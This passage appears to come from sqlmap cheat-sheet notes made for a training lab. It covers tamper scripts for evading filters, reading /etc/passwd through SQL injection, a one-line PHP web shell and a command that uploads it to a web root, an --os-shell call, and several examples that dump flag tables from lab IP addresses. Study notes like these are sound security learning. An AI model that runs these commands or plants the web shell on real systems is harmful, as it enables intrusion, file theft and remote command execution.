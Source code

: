 | space2mssqlblank          | Replaces (MsSQL) instances of space character ( ) with a random blank character from a valid set of alternate characters     |
| space2plus                | Replaces space character ( ) with plus (+)                                                                                   |
| space2randomblank         | Replaces space character ( ) with a random blank character from a valid set of alternate characters                          |
| symboliclogical           | Replaces AND and OR logical operators with their symbolic counterparts (&& and \|\|)                                         |
| versionedkeywords         | Encloses each non-function keyword with (MySQL) versioned comment                                                            |
| versionedmorekeywords     | Encloses each keyword with (MySQL) versioned comment                                                                         |
# OS Exploitation
###### Reading Local Files
```sqlmap
sqlmap -u "http://www.example.com/?id=1" --file-read "/etc/passwd"
```
###### Writing Local Files
**shell.php**
```bash
echo '<?php system($_GET["cmd"]); ?>' > shell.php
```
**Write File**
```sqlmap
sqlmap -u "http://www.example.com/?id=1" --file-write "shell.php" --file-dest "/var/www/html/shell.php"
```
###### OS Command Execution
```sqlmap
sqlmap -u "http://www.example.com/?id=1" --os-shell
```
##### Examples
```sqlmap
sqlmap 'http://94.237.61.218:59966' --data 'id=1*'
```
###### POST
```sqlmap
sqlmap 'http://94.237.61.218:59966' --data 'id=1*' --batch --technique U --dump
```
###### Cookie
```sqlmap
sqlmap 'http://94.237.61.218:59966' -H 'Cookie: id=*' --technique B --batch --dump
```
###### Level/Risk
```sqlmap
sqlmap -u 'http://94.237.61.197:59115/sqlmap.php?id=*' --level 5 --risk 3 -T flag5 --batch --dump
```
###### Prefix
```sqlmap
sqlmap -u 'http://STMIP:STMPO/sqlmap.php?col=id' --prefix='`)' --batch -T flag6 --dump
```
###### Technique
```sqlmap
sqlmap -u 'http://STMIP:STMPO/sqlmap.php?id=1' -T flag --technique=U --union-cols=5 --dump
```